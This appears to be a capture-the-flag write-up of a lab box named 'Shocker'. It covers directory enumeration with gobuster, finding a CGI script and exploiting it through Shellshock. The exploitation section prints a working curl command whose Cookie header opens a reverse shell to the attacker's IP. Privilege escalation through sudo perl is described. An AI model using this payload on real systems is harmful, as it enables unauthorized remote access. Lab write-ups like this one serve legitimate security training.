








# Shocker



## Initial Enumeration

As always, we start with a nmap scan. The results for this box are pretty short with only two services running: http and ssh.



No immediate exploits came up when searching the versions of apache or openssh, so we'll continue on and enumerate the web service. going directly to port 80 in our browser doesn't bring up anything interesting, just a page with a little text and an image:



With as always with web applications, we start up a directory buster to see what else is hiding in there. I'll use the following command for our initial search:

```bash
gobuster dir -u http://10.10.10.56 -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt -x html,php,txt -t 50
```



Everything in here looks pretty standard, but `/cgi-bin` is definitely something we want to check out. This is a directory where sysadmins can place scripts to be executed. That means we could find php, python, bash, etc scripts in here that we could abuse. Lets dig deeper into this directory with another gobuster scan, this time with a more extensive extension check.

```bash
gobuster dir -u http://10.10.10.56/cgi-bin -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt -x py,sh,php,js -t 50
```



If we curl the url for `user.sh` we get the following:


## Exploitation 

Because this box is rated as easy, there is a shell script in the `cgi-bin` directory, **and** the name is `shocker` shellshock is a good bet. We can test this by adding a malicious HTTP Header with curl and execute a reverse shell:

```bash
curl -H 'Cookie: () { :;}; /bin/bash -i >& /dev/tcp/10.10.14.12/4443 0>&1' http://10.10.10.56/cgi-bin/user.sh
```



This gives a user shell and we are able to get the `user.txt` flag. Now time for some privesc.


If you want to learn more about shellshock, this was a great and quick read: https://fedoramagazine.org/shellshock-how-does-it-actually-work/


## Privilege Escalation

As would be expected from a box rated easy, the path to root is quite simple. As with every box, the first thing I do is run `sudo -l` to see if our current user has sudo access **without** specifying a password. Lo and behold, we strike gold:



Using the perl interpreter with sudo access, we can start a `/bin/bash` process as the root user and obtain the root flag:


